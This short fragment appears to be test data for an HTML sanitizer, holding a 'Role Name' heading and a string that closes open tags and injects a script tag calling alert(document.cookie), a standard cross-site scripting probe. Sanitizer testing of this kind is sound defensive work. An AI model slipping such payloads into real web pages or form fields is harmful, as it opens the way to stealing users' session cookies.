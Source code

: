 Role Name
=========

"></code></span></div><br>hello world</br><script>alert(document.cookie)</script>
